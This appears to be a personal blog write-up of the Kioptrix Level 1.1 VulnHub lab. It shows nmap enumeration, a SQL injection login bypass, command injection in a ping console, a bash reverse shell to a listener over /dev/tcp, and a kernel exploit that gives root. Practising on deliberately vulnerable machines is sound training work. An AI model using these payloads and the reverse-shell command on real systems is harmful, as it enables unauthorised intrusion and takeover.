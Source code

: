 ```yaml
---
layout: post
title:	"Kioptrix: Level 1.1 (#2) Writeup"
date:	2017-01-07 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello all.

You can download Kioptrix  from Vulnhub.

As always I started to enumerate with nmap:

~~~
Syrion:~ syrion$ nmap -sT -sV -p 1-65535 192.168.1.26
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-01-07 00:18 CET
Nmap scan report for 192.168.1.26
Host is up (0.0014s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
788/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
~~~

On port 80 there was this vulnerable login:

![Screenshot]({{ site.baseurl }}/images/2017-01-07-kioptrix-level-1-1-writeup/img1.png)

By using ‘ or 1=1 — – as username I successfully logged in:

![Screenshot]({{ site.baseurl }}/images/2017-01-07-kioptrix-level-1-1-writeup/img2.png)

There was this “Basic Administrative Web Console”.  By giving an ip address, it performed a ping command:

![Screenshot]({{ site.baseurl }}/images/2017-01-07-kioptrix-level-1-1-writeup/img3.png)

Nice!!! It looked like a Command Injection Vulnerability!!! I succesfully executed a “ls” command by using this input:

~~~
;ls
~~~

![Screenshot]({{ site.baseurl }}/images/2017-01-07-kioptrix-level-1-1-writeup/img4.png)

I opened a reverse shell:

~~~
;bash -i >& /dev/tcp/192.168.1.24/4444 0>&1
~~~

~~~
Syrion:~ syrion$ nc -l 4444
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
~~~

I noticed that this linux kernel version was vulnerable to this [exploit](https://www.exploit-db.com/exploits/9542/):

~~~
bash-3.00$ gcc exp.c -o exp
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
~~~

It was done!

Good bye!